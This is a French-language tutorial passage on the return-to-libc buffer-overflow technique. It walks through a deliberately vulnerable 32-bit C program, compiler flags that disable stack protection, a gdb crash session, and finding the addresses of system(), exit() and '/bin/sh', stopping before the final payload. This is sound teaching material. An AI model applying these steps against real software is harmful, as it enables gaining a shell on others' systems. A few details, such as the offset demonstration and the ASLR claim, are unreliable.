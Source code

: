 ```yaml
---
title: "Technique de la retour à la libc"
description: rop.jpg
---
```


![forthebadge made-with-python](https://media.giphy.com/media/xT9IgG50Fb7Mi0prBC/giphy.gif)

Prérequis :
- Avoir les bases en `pwn` de comprendre et comment attaquer un buffer overflow basique.
- Et d'un ordinateur, eh eh !

Aujourd'hui je souhaite vous présentez un article pour une nouvelle technique de `Buffer Overflow`. Une technique relativement amusante et très simple, êtes-vous intéressez ? Si c'est le cas, allons-y !

# C'est quoi la technique de la retourne à la libc ?

Ce que nous avons vue la dernière fois en rapport avec les `Buffer Overflow` pour exécuter un `shellcode`,  il fallait que la `pile/stack` soit exécutable. 

    root@0xEX75:~# readelf -lW ./testing |grep GNU_STACK
    GNU_STACK      0x000000 0x0000000000000000 0x0000000000000000 0x000000 0x000000 RWE 0x10
    
Le `R` désigne tout simplement que la pile est en lecture et la lettre `W` correspond concrètement à l'écriture sur la pile et enfin la lettre `E` correspond à la pile exécutable, et c'est grâce à ce système que nous pouvons exécuter un shellcode car c'est le processeur qui exécute notre shellcode.

![forthebadge made-with-python](https://2.bp.blogspot.com/-UPzV6M_ZsK8/W3B5kWiwYII/AAAAAAAAAeE/L1izLVAJGbwfh52XG4HjMtPDDMXC-bLqACLcBGAs/s1600/ret2libc.png)

Dans des cas assez spécifique, la pile n'est pas exécutable donc c'est presque impossible de faire exécuter un shellcode au programme pour `pop` un shell par exemple. Donc les experts ont trouver une solution qui se nomme la technique de `retourne à la libc`, qui permet d'utiliser des fonctions de la `libc`, comme par exemple la fonction `system();` pour ensuite l'utiliser contre le programme.

# Pratique exploitation !

(Pour cette partie, nous désactiverons l'`ASLR`, car la technique de retourne à la libc fonctionne uniquement si la pile n'est pas exécutable et que l'ASLR n'est pas activé.)

Voici un petit script en C qui ne fait pas grand chose :

    #include <stdlib.h>
    #include <stdio.h>
    #include <string.h>

    void name(char*);

    void name(char *f)
    {
        char firstname[10];
        strcpy(firstname, f);
        printf("Your name : %s\n", firstname);
    }

    int main(int argc, char *argv[])
    {
        if(argc != 2)
        {
            exit(0);
        }
        name(argv[1]);
        return 0;
    }
    
Un programme basique qui ne fait pas grand chose, mais la vulnérabilité se trouve au niveau de la fonction `strcpy();`. Je suppose que vous savez que les fonctions comme `strcpy();`, `strcat();` etc.. ne sont pas du tout sécurisées donc il existe un système qui se nomme `FORTIFY_SOURCE` qui permet de remplacer les fonctions par des fonctions beaucoup plus sécurisées.

Ensuite, une petite compilation est nécessaire :

    root@0xEX75:~/libc# gcc -m32 -fno-stack-protector libc.c -o libc
    root@0xEX75:~/libc# readelf -lW libc|grep GNU_STACK
    GNU_STACK      0x000000 0x0000000000000000 0x0000000000000000 0x000000 0x000000 RW  0x10
    
(Le flag `E` n'est pas là, donc la pile n'est plus du tout exécutable.). Si nous essayons d'exécuter le programme après la compilation, cela fonctionne, mais dans la mémoire il se passe des choses.

    root@0xEX75:~/libc# ./libc $(python -c 'print "A"*22')
    root@0xEX75:~/libc# ./libc $(python -c 'print "A"*22')
    segmentation fault (core dumped)
    
Nous pouvons aperçevoir que le programme plante après 22 caractères, donc l'`OFFSET` correspond exactement à 22 caractères, si nous effectuons un dépassement, la sauvegarde `sEIP` sera complètement écrasé et le programme plantera automatiquement.

Nous allons lancer `GDB` (GNU Debugger), et nous allons chercher l'adresse de la fonction `system();`, `exit();` et finalement une chaîne comme `/bin/sh` qui nous permettra de lancer cette commande en particulier.

    root@0xEX75:~/libc# gdb ./libc
    GNU gdb (Debian 8.3.1-1) 8.3.1
    Copyright (C) 2019 Free Software Foundation, Inc.
    License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
    This is free software: you are free to change and redistribute it.
    There is NO WARRANTY, to the extent permitted by law.
    Type "show copying" and "show warranty" for details.
    This GDB was configured as "x86_64-linux-gnu".
    Type "show configuration" for configuration details.
    For bug reporting instructions, please see:
    <http://www.gnu.org/software/gdb/bugs/>.
    Find the GDB manual and other documentation resources online at:
        <http://www.gnu.org/software/gdb/documentation/>.

    For help, type "help".
    Type "apropos word" to search for commands related to "word"...
    Reading symbols from ./libc...
    (No debugging symbols found in ./libc)
    gdb-peda$ r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    Starting program: /root/libc/libc AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    Your name : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

    Program received signal SIGSEGV, Segmentation fault.
    [----------------------------------registers-----------------------------------]
    EAX: 0x54 ('T')
    EBX: 0x41414141 ('AAAA')
    ECX: 0x7fffffac 
    EDX: 0xf7fae010 --> 0x0 
    ESI: 0xf7fac000 --> 0x1d6d6c 
    EDI: 0xf7fac000 --> 0x1d6d6c 
    EBP: 0x41414141 ('AAAA')
    ESP: 0xffffd290 ('A' <repeats 45 times>)
    EIP: 0x41414141 ('AAAA')
    EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
    Invalid $PC address: 0x41414141
    [------------------------------------stack-------------------------------------]
    0000| 0xffffd290 ('A' <repeats 45 times>)
    0004| 0xffffd294 ('A' <repeats 41 times>)
    0008| 0xffffd298 ('A' <repeats 37 times>)
    0012| 0xffffd29c ('A' <repeats 33 times>)
    0016| 0xffffd2a0 ('A' <repeats 29 times>)
    0020| 0xffffd2a4 ('A' <repeats 25 times>)
    0024| 0xffffd2a8 ('A' <repeats 21 times>)
    0028| 0xffffd2ac ('A' <repeats 17 times>)
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    Stopped reason: SIGSEGV
    0x41414141 in ?? ()
    gdb-peda$ p system
    $1 = {<text variable, no debug info>} 0xf7e17660 <system> # ADDRESS FUNCTION SYSTEM
    gdb-peda$ p exit
    $2 = {<text variable, no debug info>} 0xf7e0a6f0 <exit> # ADDRESS FUNCTION EXIT
    gdb-peda$ searchmem "/bin/sh"
    Searching for '/bin/sh' in: None ranges
    Found 1 results, display max 1 items:
    libc : 0xf7f54f68 ("/bin/sh") # ADDRESS /BIN/SH
    
Donc, nous avons réussis à capturer les adresses de `system();`, `exit()` et finalement de la chaîne "`/bin/sh"`.

- system(); : 0xf7e17660
- exit();   : 0xf7e0a6f0
- /bin/sh   : 0xf7f54f68

